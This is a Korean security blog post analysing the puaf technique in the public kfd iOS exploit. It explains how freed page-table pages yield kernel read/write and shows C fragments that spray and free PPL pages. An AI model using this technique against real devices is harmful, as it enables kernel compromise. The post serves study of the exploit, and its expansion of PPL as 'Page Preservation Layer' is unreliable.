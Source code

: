 ```yaml
---
title: "[iOS] iOS에서 KTRW를 우회하여 커널을 읽고 쓸 수 있는 kfd"
excerpt: "kfd 분석글"

categories:
  - Security
tags:
  - [Security, iOS]

permalink: /Security/puaf/

toc: true
toc_sticky: true

date: 2024-09-01
last_modified_at: 2024-09-01
---
```


# <mark>TL;DR</mark>
> puaf 이용하여 free된 PTE L3 물리 페이지으로부터 <u>커널 읽기/쓰기 권한</u>을 가져올 수 있다.


# <mark> puaf를 이용하여 권한을 가져온 상태를 정의하자 </mark>
`puaf`는 Physical Use Afer Free의 약어로, 물리주소에서 일어나는 UAF다.<br>
<b>댕글링 포인터를 이용하여 특정 Page Table Entry의 AP 비트를 이용해 읽고 쓰는 권한</b>을 갖게 하는 것이다.<br>
User Process에서 위의 과정이 일어나게 되고 free()한 후에 커널이 이를 사용하게 하여 커널의 R/W 권한을 가져오게 된다.<br>
<br>
이때 유의해야할 점으로 Page Preservation Layer에서 사용할 수 있는 free()된 리스트가 부족하게 되면,<br>
PPL은 pmap_mark_page_as_ppl_page_internal()를 호출하게 된다.<br>
이때 PPL은 일반 커널에서 페이지를 요청하기 때문에 PPL 매커니즘에 의해 커널 패닉을 발생시킨다.<br>
따라서 <b>PPL을 사용할때 free() 리스트의 크기를 늘려야 한다.</b>

## <mark>위의 과정을 코드로 보자 </mark>
#### 1. PPL 소유 페이지 할당 
```c
while (true) {
        // address + 2^25(1ull << 25)
        address += l2_block_size;
        if (address < min_address) {
            continue;
        }

        if (address >= max_address) {
            break;
        }

        /// vm_allocate()를 이용해서 PPL_pages를 원하는 크기만큼 할당
        kern_return_t kret = vm_allocate(mach_task_self(), &address, pages(1), VM_FLAGS_FIXED);
        if (kret == KERN_SUCCESS) {
            /// 사용자 공간에서 인식가능하도록 하는 과정
            memset((void*)(address), 'A', 1);
            addresses[given_ppl_pages] = address;
            /// 최대 페이지 수로 설정한 10000에 도달하면 break
            if (++given_ppl_pages == given_ppl_pages_max) {
                break;
            }
        }
    }
```

#### 2. 할당된 PPL_pages에 매핑 존재하는지 확인하고, 없으면 L3 테이블 할당(내부적으로 동작)

#### 3. 할당을 해제하면 Free 리스트에 들어감
```c
/// 할당 메모리 해제
    for (u64 i = 0; i < given_ppl_pages; i++) {
        assert_mach(vm_deallocate(mach_task_self(), addresses[i], pages(1)));
    }

    print_u64(given_ppl_pages);
```


```
즉, 반복적으로 해당 영역을 살피면서 AP비트를 확인하는 것이다.
```

# <mark>Reference</mark>
https://github.com/felix-pb/kfd.git

